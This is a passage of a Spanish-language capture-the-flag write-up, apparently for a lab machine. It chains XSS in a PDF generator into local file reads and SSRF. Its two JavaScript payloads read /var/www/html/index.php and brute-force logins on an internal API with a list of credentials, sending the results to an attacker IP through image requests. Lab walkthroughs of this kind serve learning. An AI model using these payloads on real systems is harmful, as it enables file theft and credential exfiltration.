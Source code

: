 Si intentamos leer el contenido de `/var/www/html/index.php` de la misma manera que lo hemos hecho hasta ahora, veremos que no lo lograremos. Por ello, es una buena razón para explorar una alternativa que nos permita visualizar el contenido de los archivos internos, lo cual será posible gracias al siguiente contenido de `pwned.js`.

```js
x=new XMLHttpRequest;
x.onload=function(){
  // No lo pasaremos a base64 (btoa), ya que si no, no funcionará
  new Image().src=`http://192.168.26.10/?resText=${this.responseText}`;
  // De igual forma, mostraremos el conteido en el pdf
  document.write(`<pre>${this.responseText}</pre>`) // Usaremos etiquetas preformateadas (<pre>) para ver el contenido correctamente
};
x.open("GET","file:///var/www/html/index.php");x.send();
```

En el **PDF** generado, veremos el contenido del `/var/www/html/index.php` y en el observemos una credenciales. 

![](<../assets/images/posts/2025-03-16-tokenofhate/Pasted image 20250315223908.png>)
### XSS → SSRF → API

Volveremos a cambiar el contenido de `pwned.js`, en este caso aplicaremos un mini ataque de fuerza bruta para descubrir que usuario tiene capacidad de logearse en la **API**.

```js
function checkUser(username, password){
  x=new XMLHttpRequest;
  x.onload=function(){new Image().src=`http://192.168.26.10/?resText=${btoa(this.responseText)}`; document.write(`[+] Username: ${username} -> ` + this.responseText + "<br>")};
  let data = JSON.stringify({"username": username, "password": password})
  x.open("POST","http://localhost:3000/login");
  x.setRequestHeader("Content-Type", "application/json");
  x.send(data);
}

let users = [
['admin', 'dUnAyw92B7qD4OVIqWXd'],
['Łukasz', 'dQnwTCpdCUGGqBQXedLd'],
['Þór', 'EYNlxMUjTbEDbNWSvwvQ'],
['Ægir', 'DXwgeMuQBAtCWPPQpJtv'],
['Çetin', 'FuLqqEAErWQsmTQQQhsb'],
['José', 'FuLqqEAErWQsmTQQQhsb']
];

for (let user of users){
  document.write(`[+] Username: ${user[0]}<br>`)
  checkUser(user[0], user[1])
}
```
